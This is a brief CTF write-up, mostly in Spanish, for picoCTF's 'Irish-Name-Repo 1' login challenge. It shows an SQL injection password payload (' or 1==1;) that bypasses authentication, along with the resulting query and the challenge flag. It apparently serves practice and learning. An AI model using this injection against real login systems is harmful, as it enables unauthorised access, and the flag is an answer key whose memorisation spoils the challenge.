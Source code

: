 ##  Irish-Name-Repo 1

### Objetivos 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

### Pistas
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.

### Solución 

- activamos el campo de debug desde las herramientas de desarrollador para ver las sentencias sql.

- hacemos una inyeccion SQL:
colocamos el username admin y en la contraseña ponemos una condición que siempre se cumpla, como 1=1 para iniciar sesion
``` bash

username: admin 
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin ' AND password='' or 1==1;'

---

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
```

### Notas adicionales:



### Referencias:
sql injection:  https://www.imperva.com/learn/application-security/sql-injection-sqli/#:~:text=SQL%20injection%2C%20also%20known%20as,not%20intended%20to%20be%20displayed.